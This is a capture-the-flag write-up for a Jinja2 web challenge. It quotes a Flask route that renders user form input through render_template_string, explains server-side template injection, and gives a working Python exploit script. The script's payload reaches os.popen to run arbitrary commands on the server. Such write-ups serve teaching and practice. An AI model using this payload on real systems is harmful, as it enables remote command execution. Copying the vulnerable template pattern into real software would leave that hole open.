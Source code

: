 # Trail By Fire

> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria

**Difficulty:** Very easy  
**Source Code:** Provided  
**Techniques used:** SSTI in jinja2 application

This was the first challenge I tackled in this CTF. I started exactly at 10 AM on Friday, and it turned out to be a straightforward one.

At the file `challenge/application/blueprints/routes.py` in the route `/batlle-report` we can find out the exploit point:
`<p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>`

Well, there is another, but used this one.
```python 
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```

**Quick refresher:** SSTI stands for Server-Side Template Injectionis a vulnerability where the application interprets user-supplied data directly as commands within the template engine. In this case, the templating engine is Jinja2, widely used in Flask applications.

The correct approach would be to safely reference variables using `{{ }}` within `.html` files and render them via Flask's `render_template` method. However, the developer concatenated user-controlled input directly into the template string using `render_template_string`, allowing us to inject arbitrary Jinja2 code.

We can confirm this with `{{7*7}}`:
![Proof of the vulnerability](imgs/poc.png)

After confirming the vulnerability, I wrote the following Python script to exploit it:
```python
import argparse
import requests
import re

# Setup command line arguments
parser = argparse.ArgumentParser()
parser.add_argument("--url", type=str, default="http://localhost:1337", help="Target URL")
parser.add_argument("--cmd", type=str, default="cat flag.txt", help="Command to execute remotely")

args = parser.parse_args()
url = args.url
cmd = args.cmd

# Create a session to maintain cookies and session data
session = requests.session()

# Initiate session with warrior name (necessary for the app logic)
session.post(url + "/begin", data={"warrior_name": "aaaa"})

# Craft payload exploiting Jinja2 SSTI vulnerability
payload = f"{{{{self.__init__.__globals__.__builtins__.__import__('os').popen('{cmd}').read()}}}}"

# Send malicious payload to vulnerable endpoint
response = session.post(url + "/battle-report", data={"damage_dealt": payload})

# Extract the flag from the response using regex
match = re.search(r'HTB\{[A-Za-z0-9_]+\}', response.text)

# Print the flag if found, otherwise print response
if match:
    print(match.group())
else:
    print("No flag found.")
```

After running the script, the flag was successfully retrieved:  
![Flag](imgs/flag.png)